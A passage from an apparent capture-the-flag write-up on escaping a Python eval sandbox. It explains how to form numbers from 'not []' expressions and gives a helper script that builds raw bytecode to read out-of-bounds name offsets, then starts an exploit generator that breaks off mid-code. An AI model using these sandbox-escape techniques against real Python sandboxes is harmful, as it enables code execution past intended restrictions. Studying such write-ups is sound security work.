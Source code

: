 For generating numbers should be trivial:

- 0: not \[\[]]
- 1: not \[]
- 2: (not \[]) + (not \[])
- ...

### Exploit Script <a href="#exploit-script-1" id="exploit-script-1"></a>

I didn't use consts due to the length limit.

First here is a script for us to find those offsets of names.

```python
from types import CodeType
from opcode import opmap
from sys import argv


class MockBuiltins(dict):
    def __getitem__(self, k):
        if type(k) == str:
            return k


if __name__ == '__main__':
    n = int(argv[1])

    code = [
        *([opmap['EXTENDED_ARG'], n // 256]
          if n // 256 != 0 else []),
        opmap['LOAD_NAME'], n % 256,
        opmap['RETURN_VALUE'], 0
    ]

    c = CodeType(
        0, 0, 0, 0, 0, 0,
        bytes(code),
        (), (), (), '<sandbox>', '<eval>', 0, b'', ()
    )

    ret = eval(c, {'__builtins__': MockBuiltins()})
    if ret:
        print(f'{n}: {ret}')

# for i in $(seq 0 10000); do python find.py $i ; done1234567891011121314151617181920212223242526272829303132
```

And the following is for generating the real Python exploit.

```python
import sys
import unicodedata


class Generator:
    # get numner
    def __call__(self, num):
        if num == 0:
            return '(not[[]])'
        return '(' + ('(not[])+' * num)[:-1] + ')'

    # get string
    def __getattribute__(self, name):
        try:
```